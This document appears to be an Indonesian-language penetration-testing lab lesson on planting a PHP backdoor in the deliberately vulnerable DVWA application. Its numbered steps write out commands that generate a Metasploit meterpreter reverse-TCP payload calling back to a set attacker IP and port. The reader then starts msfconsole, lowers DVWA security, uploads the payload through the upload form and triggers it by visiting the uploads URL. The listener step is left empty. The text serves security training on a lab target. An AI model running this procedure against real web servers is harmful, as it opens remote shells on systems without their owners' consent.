






# Lesson 8: Upload PHP Backdoor Payload

1. Di metasploit, buka terminal dan jalankan perintah-perintah berikut

```
chown root:www-data /var/www/dvwa/hackable/uploads/
chmod 775 /var/www/dvwa/hackable/uploads/
ls -ld /var/www/dvwa/hackable/uploads/
```


2. Membuat msfpayload

```
mkdir -p /root/backdoor
cd /root/backdoor
msfpayload php/meterpreter/reverse_tcp LHOST=10.151.252.225 LPORT=4444 R > PHONE_HOME.php
ls -l PHONE_HOME.php
```


3. Edit file PHONE_HOME.php dan hilangkan tanda pagar "#" dibaris pertama


4. Jalankan perintah berikut
```
msfconsole
```


5. Menjalankan PHP Listener seperti perintah berikut.



6. Buka firefox dan akses halaman dvwa.

7. Setelah login, masuk ke  DVWA security, atur ke low

8. Klik tab Upload, akan muncul form untuk mengupload file.

9. Upload file PHONE_HOME.php tadi, dengan cara : file system/root/backdoor/


10. Aktifkan file php tadi dengan mengakses halaman http://10.0.1.100/dvwa/hackable/uploads/


